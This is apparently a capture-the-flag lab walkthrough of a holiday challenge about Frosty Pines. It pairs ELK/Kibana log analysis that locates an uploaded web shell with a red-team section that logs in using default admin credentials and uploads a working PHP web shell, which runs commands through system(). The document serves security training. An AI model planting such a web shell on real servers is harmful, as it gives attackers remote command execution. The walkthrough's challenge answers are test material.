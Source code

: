 # Even if I wanted to go, their vulnerabilities wouldn't allow it.
## The story
Today's AoC challenge follows a rather unfortunate series of events for the Glitch. Here is a little passage which sets the scene for today's task:

> Late one Christmas evening the Glitch had a feeling,
> Something forgotten as he stared at the ceiling.
> 
> He got up out of bed and decided to check,
> 
> A note on his wall: ”Two days! InsnowSec”.
> 
>   
> 
> With a click and a type he got his hotel and tickets,
> 
> And sank off to sleep to the sound of some crickets.
> 
> Luggage in hand, he had arrived at Frosty Pines,
> 
> “To get to the conference, just follow the signs”.
> 
> 
> Just as he was ready the Glitch got a fright,
> 
> An  RCE  vulnerability on their website ?!?
> 
> He exploited it quick and made a report,
> 
> But before he could send arrived his transport.
> 
> 
> In the Frosty Pines  SOC  they saw an alert,
> 
> This looked quite bad, they called an expert.
> 
> The request came from a room, but they couldn’t tell which,
> 
> The logs saved the day, it was the room of…the Glitch.

## Learning Objectives

-   Learn about Log analysis and tools like  ELK.
-   Learn about KQL and how it can be used to investigate logs using  ELK.
-   Learn about  RCE  (Remote Code Execution), and how this can be done via insecure file upload.

## Topics Overview

### Operation Blue and Red

A simulation involving the defensive (Blue Team) and offensive (Red Team) roles to analyze vulnerabilities and detect threats.

### Log Analysis and ELK

The ELK stack (Elasticsearch, Logstash, Kibana) is used to parse and analyze system logs to detect anomalies or security incidents.

### Kibana Query Language (KQL)

A simplified query language used in Kibana to filter and search log entries efficiently.

### Upload Vulnerabilities

Focuses on improper handling of file uploads, which can allow attackers to upload malicious files, such as web shells.

### Weak Credentials

Exploration of risks stemming from poorly chosen or reused passwords that attackers can exploit through brute-force attacks.

### Remote Code Execution (RCE)

A critical vulnerability where attackers execute arbitrary commands on a target system, often leading to complete system compromise.

### Web Shell

A malicious script uploaded to a web server, providing attackers with remote access to execute commands on the server.

----------

## Question & Answer Section

### BLUE: Where was the web shell uploaded to?

**Answer format**: `/directory/directory/directory/filename.php`

1.  Open the Elastic page at `http://MACHINE_IP:5601`.
2.  Select the **"frostypines-resorts"** index to view logs related to Frosty Pines Resorts.
3.  Analyze logs between **11:30 and 12:00 on October 3rd, 2024**.
4.  Use the search query `message: "shell.php"` to locate entries involving the web shell.
5.  Examine frequent IP addresses in the logs. One of them executes malicious commands.

The malicious IP accesses `/media/images/rooms/shell.php`.

### BLUE: What IP address accessed the web shell?

The malicious IP identified is **10.11.83.34**.

----------

### RED: What is the content of the `flag.txt`?

1.  Access the Frosty Pines Resorts website at `http://frostypines.thm`:
    
    -   Modify the `/etc/hosts` file by adding `MACHINE_IP frostypines.thm` 
        
2.  Login using the following credentials:  
    **Username**: `admin@frostypines.thm`  
    **Password**: `admin`
    
3.  Navigate to the admin portal and add a new room:
    
    -   Create and upload a PHP file (`rce.php`) with the following content:
   
    ```php
    <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="text" name="command" autofocus id="command" size="50">
    <input type="submit" value="Execute">
    </form>
    <pre>
    <?php
        if(isset($_GET['command'])) 
        {
            system($_GET['command'] . ' 2>&1'); 
        }
    ?>
    </pre>
    </body>
        </html>
    ```
    
5.  Inspect the network requests to locate the uploaded file URL:
    
    -   `http://frostypines.thm/media/images/rooms/rce.php`.
6.  Execute the following commands to retrieve the flag:
    
    -   Use `ls` to view files in the directory.
    -   Use `cat flag.txt` to read the content.
----------

## Conclusion

This exercise demonstrates both attack and defense methodologies. The Blue Team identifies malicious activities through log analysis, while the Red Team exploits upload vulnerabilities and weak credentials to gain access and retrieve sensitive data.

